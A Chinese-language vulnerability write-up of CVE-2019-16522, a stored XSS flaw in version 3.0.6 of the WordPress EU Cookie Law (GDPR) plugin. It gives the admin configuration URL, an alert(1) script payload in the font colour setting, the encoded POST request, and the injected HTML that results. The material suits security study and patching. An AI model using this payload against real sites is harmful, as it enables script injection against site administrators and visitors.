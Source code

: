 （CVE-2019-16522）WordPress Plugin - EU Cookie Law (GDPR) 储存型xss
===================================================================

一、漏洞简介
------------

WordPress的3.0.6版eu-cookie-law插件（又称为EU
Cookie法（GDPR））容易受到存储XSS的影响，原因是管理区域中几个配置选项的编码不正确以及显示的Cookie同意消息。这会影响"字体颜色"，"背景颜色"和"禁用Cookie"文本。具有高特权的攻击者可以攻击其他用户。

二、漏洞影响
------------

wordpress \<= 3.0.6，可能更高

三、复现过程
------------

    /wp-admin/options-general.php?page=peadig_eucookie

管理员可以在配置区域为插件设置多个选项。在插入HTML页面之前，大多数都可以正确转义。但是，可以利用三个设置值来插入任意JavaScript和HTML。那些是：

字体颜色（ Font Color） 背景颜色 （Background Color） "禁用Cookie"文本
（\"Disable Cookie\" Text） "
Fontcolor"的值将插入到显示Cookie同意消息的每个页面上。默认情况下，其他两个仅可在管理区域中利用。

以"字体颜色"为例

将字体颜色的值设置为

    #FFFFFF"><script>alert(1)</script>

便可以突破HTML属性并插入script包含JavaScript 的标签

post包：

    POST /wp-admin/options.php HTTP / 1.1 
    [ ... ] 

    [ ... ] peadig_eucookie％5 Bfontcolor％5 D = ％23FFFFFF％22％3E％3Cscript％3Ealert％281％29％3C / script％3E [...]

这时候我们看一下返回值。

在管理区域中，生成的HTML页面如下所示

    <input id="fontcolor" type="text" name="peadig_eucookie[fontcolor]" value="#FFFFFF">
    <script>alert(1)</script>
    " class="color-field" data-default-color="#ffffff"/>

在带有cookie消息的页面上，有效负载将被多次插入。生成的HTML如下所示

    <!-- Eu cookie Law 3.0.6 -->
    <div class="pea_cook_wrapper pea_cook_bottomcenter" style="color:#FFFFFF">
        <script>alert(1)</script>
        ;background:rgb(0,0,0);background: rgba(0,0,0,0.85);">
